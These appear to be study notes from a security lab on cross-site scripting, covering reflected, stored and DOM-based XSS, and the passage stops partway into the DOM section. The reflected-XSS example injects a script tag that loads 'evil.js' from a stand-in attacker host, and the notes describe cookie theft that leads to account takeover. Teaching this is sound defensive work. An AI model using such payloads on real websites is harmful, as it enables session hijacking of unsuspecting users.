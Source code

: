 
## reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- URL parameters
- URL file path

```
https://website.thm/?error=Invalid Input Detected

<div class="alert alert-danger">
	<p><script src="https:..attacker.thm/evil.js"></script></p>
</div>
```

1. attacker sends a link to victim that has malicious payload
2. victim clicks link and goes to vulnerable website
3. link contains attacker's script executed on website
4. attacker's script grabs the data, stealing victim's cookie (account takeover)

> [!info] Potential Impact
> The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.


## stored XSS

the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

- blog website that has comment section, no checks for javascript code
- comment with javascript code is added to <span style="color:#a0f958">database</span> => every user has it now on their browser (stealing cookies)

> [!info] Potential Impact 
> The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads.


## DOM based XSS

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:

```
document
	<html> root element
	
	L <head> element
		L <title>
		L text
	
	L <body> element
		L <a>
		L text
		L <h1>
		L text
```
